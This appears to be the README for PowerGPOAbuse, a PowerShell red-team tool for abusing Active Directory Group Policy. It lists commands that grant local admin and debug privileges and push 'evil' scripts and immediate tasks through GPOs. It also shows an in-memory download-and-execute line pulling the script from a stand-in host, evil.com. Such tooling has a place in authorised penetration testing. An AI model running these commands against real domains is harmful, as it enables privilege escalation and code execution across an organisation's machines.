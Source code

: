 # PowerGPOAbuse
Powershell version of SharpGPOAbuse for those who can't compile or if their C2 can't execute .NET Assembly straightly from memory. Highly inspired by the [original](https://github.com/FSecureLABS/SharpGPOAbuse) C# version and the amazing [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1). 

Usage
=====================

Import the script
-----------------

* <code>PS> Import-Module .\PowerGPOAbuse.ps1</code>

* <code>PS> . .\PowerGPOAbuse.ps1</code>

* <code>PS> IEX (New-Object System.Net.WebClient).DownloadString('https://evil.com/PowerGPOAbuse.ps1')</code>

Recon
-----------------

* Those function are designed for exploitation function, but they can be used to quick recon. They not aim to replace PowerView's one.

* List users <code>PS> Get-DomainUser</code>

* List groups <code>PS> Get-DomainGroup</code>

* List GPOs <code>PS> Get-DomainGPO</code>

* List OUs <code>PS> Get-DomainOU</code>

* List DCs <code>PS> Find-DomainController</code>

Exploitation
-----------------

* Changing GPO status <code>PS> Set-DomainGPOStatus -GPOIdentity "SuperSecureGPO" -Status "AllSettingsDisabled"</code>

* Creating a new GPLink <code>PS> New-DomainGPLink -GPOIdentity "SuperSecureGPO" -OUIdentity "SecureUsers" -Status "LinkEnabled" </code>

* Changing the status of a GPLink <code>PS> New-DomainGPLink -GPOIdentity "SuperSecureGPO" -OUIdentity "SecureUsers" -Status "LinkEnabled"</code>

* Adding a user to a group <code>PS> Add-GPOGroupMember -Member 'Bobby' -GPOIdentity 'SuperSecureGPO'</code>

* Assign a new right <code>PS> Add-GPOUserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'</code>

* Adding a new Computer/User script <code>PS> Add-GPOStartupScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO' -Scope Computer/User</code>

* Create an new Computer/User immediate task <code>PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User</code>

* Adding a new registry key <code> PS> Add-GPORegistryPreference -GPOIdentity SuperSecureGPO -RegistryPath "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\" -RegistryKey "__PSLockdownPolicy" -RegistryValue "4" -RegistryValueType String -RegistryAction Create</code>

* Create a new GPO <code>PS> New-DomainGPO -DisplayName SuperSecureGPO -Domain testlab.local</code>

* Delete a GPO <code>PS> Remove-DomainGPO -GPOIdentity SuperSecureGPO -RemoveFile</code>

Aliases
-----------------

* <code>Add-LocalAdmin</code> -> <code>Add-GPOGroupMember</code>

* <code>Add-UserRights</code> -> <code>AddGPOUserRights</code>

* <code>Add-Script</code> -> <code>Add-GPOStartupScript</code>

* <code>Add-Task</code> -> <code>Add-GPOImmediateTask</code>

* <code>Add-RegistryValue</code> -> <code>Add-GPORegistryPreference</code>

Future changes
=====================

Reverse functions, Backup Operator weaponization, stability, optimisation and new exploitation functions.

if you find any bugs, idea to improve the script, or any feedback, feel free raise an issue or propose a pull requests ! 
